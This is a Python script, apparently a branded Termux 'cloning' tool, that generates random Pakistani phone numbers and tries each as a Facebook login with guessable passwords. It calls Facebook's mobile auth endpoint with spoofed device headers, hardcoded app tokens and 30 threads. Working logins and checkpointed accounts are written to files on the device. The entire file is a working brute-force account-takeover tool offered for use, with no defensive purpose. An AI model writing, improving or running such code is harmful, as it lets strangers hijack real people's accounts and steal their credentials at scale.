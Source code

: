 ###-------[IMPORT MODULES]-----------####

import os
import sys
import time
import uuid
import json
import string
import random
import requests
from requests.exceptions import ConnectionError
from concurrent.futures import ThreadPoolExecutor

###-------[BASIC COLORS]-----------####
reset = "\033[0m"
red = "\033[1;31m"
green = "\033[1;32m"
yellow = "\033[1;33m"
blue = "\033[1;34m"
cyan = "\033[1;36m"
white = "\033[1;37m"

###-------[FLASH COLORS]-----------####
colors = ["\033[1;30m", "\033[1;30m", "\033[0;31m", "\033[1;31m", "\033[0;32m", "\033[1;32m","\033[0;92m","\033[1;92m","\033[1;93m","\033[1;94m","\033[1;95m","\033[1;96m","\033[0;33m", "\033[1;33m", "\033[0;34m", "\033[1;34m", "\033[0;35m", "\033[1;35m", "\033[0;36m", "\033[1;36m", "\033[0;37m", "\033[1;37m", "\033[1;90m", "\033[0;91m","\033[1;91m", "\033[0;92m", "\033[1;93m", "\033[0;94m", "\033[1;94m", "\033[0;95m","\033[1;95m", "\033[0;96m", "\033[1;96m", "\033[0;97m", "\033[0;100m", "\033[1;100m","\033[0;101m", "\033[1;101m", "\033[0;102m", "\033[1;102m","\033[0;104m", "\033[1;104m", "\033[0;105m", "\033[1;105m", "\033[0;106m", "\033[1;106m"]

###-------[LOOP]-----------####
loop = 0
idz = []
oks = []
cps = []

sys.stdout.write('\x1b[1;35m\x1b]2;🌹🌻🍂💛YounisXyz 🙂💗 \x07')

try:os.mkdir('/sdcard/XYZ')
except:pass


###-------[LOGO]-----------####
logo= f'''\033[1;97m
 "\033[1;33m"    ____  ___    ____  _____ __  __
   "\033[1;33m" / __ \/   |  / __ \/ ___// / / /
 "\033[1;33m"  / / / / /| | / /_/ /\__ \/ / / / 
 "\033[1;33m" / /_/ / ___ |/ _, _/___/ / /_/ /  
/ "\033[1;33m"_____/_/  |_/_/ |_|/____/\____/   
                                   
\033[1;97m---------------------------------------------------
 \033[1;97m[\033[1;92m•\033[1;97m] Author   : DARSHAN BHAI 
 \033[1;97m[\033[1;92m•\033[1;97m] Facebook : https://www.facebook.com/profile.php?id=100073619439382
 \033[1;97m[\033[1;92m•\033[1;97m] GitHub   : https://github.com/YounisXyz
 \033[1;97m[\033[1;92m•\033[1;97m] Version  : \033[1;92m0.1
\033[1;97m---------------------------------------------------
'''


###-------[CLEAR TERMINAL]-----------####
def clear():
    os.system("clear")
    print(logo)



###-------[LINE]-----------####
def linex():
    print(f"\033[1;97m--------------------------------------------------")



###-------[MSIN MENU]-----------####
def menu():
    clear()
    print(f" \033[1;97m[\033[1;92m01\033[1;97m] RANDOM NUMBER CLONING")
    print(f" \033[1;97m[\033[1;92m02\033[1;97m] \x1b[38;5;208mVISIT YOUTUBE CHANNEL")
    print(f" \033[1;97m[\033[1;92m03\033[1;97m] \033[1;32mCONTACT DEVELOPER")
    linex()
    younisxyz = input(f" \033[1;97m[\033[1;92m?\033[1;97m] Select Option : ")
    if younisxyz in ['1','01']:
        random_number()
    elif younisxyz in ['2','02']:
        os.system("xdg-open https://youtube.com/@liger_ff07?si=iG5vcOrUetjtFJE0")
        time.sleep(3)
        menu()
    elif younisxyz in ['3','03']:
    	os.system("xdg-open https://www.facebook.com/profile.php?id=100073619439382");time.sleep(3);menu()
    else:
        print(f"\n\033[1;91m Select valid option ....")
        time.sleep(3)
        menu()


###-------[DEF CLONING]-----------####
def random_number():
    clear()
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Codes : \033[1;92m0310, 0320, 0330, 0340 ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Limit : \033[1;92m1000, 2000, 5000, 10000 ")
    linex()
    code = input(f" \033[1;97m[\033[1;92m?\033[1;97m] Enter Code  :\033[1;92m ")
    try:
        limit = int(input(f" \033[1;97m[\033[1;92m?\033[1;97m] Enter Limit :\033[1;92m "))
    except ValueError:
        limit = 5000
    for _ in range(limit):
        x = "".join(random.choice(string.digits) for _ in range(7))
        idz.append(x)
    with ThreadPoolExecutor(max_workers=30) as XYZ:
        clear()
        total_idz = str(len(idz))
        print(f"\033[1;96m BRUTE HAS BEEN STARTED BE PATIENT")
        print()
        linex()
        print(f' \033[1;32m(√) \033[1;37mTotal IDs  :\033[1;32m ',total_idz)
        print(' \033[1;37m{\033[1;32m+\033[1;37m} \033[1;35mCHOICE SIM CODE : \033[1;32m'+code)
        print(" \x1b[38;5;208m(!) \x1b[38;5;205mUse Flight Mode For Speed UP");print(' \033[1;33m[•] \033[1;37mYour \033[1;32mOK\033[1;37m/\033[1;33mCP\033[1;37m IDs Save in \033[1;32m>\033[1;37m /sdcard/XYZ')
        linex()
        for xyz in idz:
            uid = code+xyz
            pww = [xyz,uid] 
            XYZ.submit(crack, uid, pww, total_idz)
    linex()
    print(f" \033[1;97m[\033[1;92m!\033[1;97m] Process Completed ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97] Total Ok Accounts : \033[1;92m{str(len(oks))} ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Total Cp Accounts : \033[1;91m{str(len(cps))} ")
    linex()
    input(f" \033[1;97m[\033[1;91m!\033[1;97m] Press Enter To Back ")
    menu()


###-------[METHOD CRACK]-----------####
def crack(uid, pww, total_idz):
    global loop
    global oks
    global cps
    x = random.choice(["\033[1;90m","\033[1;91m","\033[1;92m" ,"\x1b[38;5;208m","\033[1;93m","\033[1;94m","\033[1;95m","\033[1;96m"])
    sys.stdout.write(f"\r{x}[YounisXyz] {loop}/{total_idz} \033[1;92m{len(oks)}\033[1;97m/\033[1;91m{len(cps)} \033[1;97m[\033[1;93m{'{:.0%}'.format(loop/float(total_idz))}\033[1;97m] ")
    sys.stdout.flush()
    try:
        for pw in pww:
            fb_version = str(random.randint(100,436))+".0.0."+str(random.randint(11,99))+"."+str(random.randint(100,150))
            fb_version_code = str(random.randint(111111111,999999999))
            uppercase_letter = "".join(random.choice(string.ascii_uppercase))
            three_digit = "".join(random.choice(string.digits) for _ in range(3))
            device_model = f"SM-{uppercase_letter}{three_digit}{uppercase_letter}"
            android_version = str(random.randint(8,13))
            ua = f"[FBAN/FB4A;FBAV/{fb_version};FBBV/{fb_version_code};FBDM/{{density=3.2,width=1080,height=1920}};FBLC/en_GB;FBRV/631869122;FBCR/Zong;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.katana;FBDV/{device_model});FBSV/{android_version};FBOP/19;FBCA/armeabi-v7a:armeabi;]"
            sex = random.choice(["Liger", "METERED", "MOBILE.EDGE", "MOBILE.HSPA", "MOBILE.LTE", "MODERATE"])
            data = {
                "adid": str(uuid.uuid4()),
                "format": "json",
                "device_id": str(uuid.uuid4()),
                "cpl": "true",
                "family_device_id": str(uuid.uuid4()),
                "credentials_type": "device_based_login_password",
                "error_detail_type": "button_with_disabled",
                "source": "register_api",
                "email": uid,
                "password": pw,
                "access_token": "350685531728|62f8ce9f74b12f84c123cc23437a4a32",
                "generate_session_cookies": "1",
                "meta_inf_fbmeta": "NO_FILE",
                "advertiser_id": str(uuid.uuid4()),
                "currently_logged_in_userid": "0",
                "locale": "en_PK",
                "device": "Samsung",
                "sdk": "Android",
                "client_country_code": "PK",
                "method": "auth.login",
                "fb_api_req_friendly_name": "authenticate",
                "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
                "api_key": "882a8490361da98702bf97a021ddc14d",
            }
            headers = {
                "User-Agent": ua,
                "Content-Type": "application/x-www-form-urlencoded",
                "Host": "graph.facebook.com",
                "X-FB-Net-HNI": str(random.randint(20000, 40000)),
                "X-FB-SIM-HNI": str(random.randint(20000, 40000)),
                "X-FB-Connection-Type": sex,
                "Authorization": "OAuth 6628568379|c1e620fa708a1d5696fb991c1bde5662",
                "X-FB-Connection-Quality": sex,
                "X-FB-Connection-Bandwidth": str(random.randint(20000000, 30000000)),
                "X-Tigon-Is-Retry": "False",
                "x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62",
                "x-fb-device-group": "5120",
                "X-FB-Friendly-Name": "ViewerReactionsMutation",
                "X-FB-Request-Analytics-Tags": "graphservice",
                "X-FB-HTTP-Engine": "Liger",
                "X-FB-Client-IP": "True",
                "X-FB-Server-Cluster": "True",
                "x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62",
            }
            url = "https://b-graph.facebook.com/auth/login"
            po = requests.post(url, data=data, headers=headers).json()
            if "session_key" in po:
                print(f"\r\033[1;92m [XYZ-OK] {uid} | {pw}")
                open("/sdcard/XYZ/RANDOM_OK.txt", "a").write(f"{uid}|{pw}\n")
                oks.append(uid)
                break
            elif "www.facebook.com" in po["error"]["message"]:
                cpclr = random.choice(["\033[1;90m","\033[1;91m","\x1b[38;5;205m" ,"\x1b[38;5;208m","\033[1;93m","\033[1;94m","\033[1;95m","\033[1;96m"])
                print(f"\r{cpclr} [XYZ-CP] {uid} | {pw}")
                open("/sdcard/XYZ/RANDOM_CP.txt", "a").write(f"{uid}|{pw}\n")
                cps.append(uid)
                break
            else:
                continue
        loop+=1
    except ConnectionError:
        time.sleep(10)
    except:
        pass



menu()
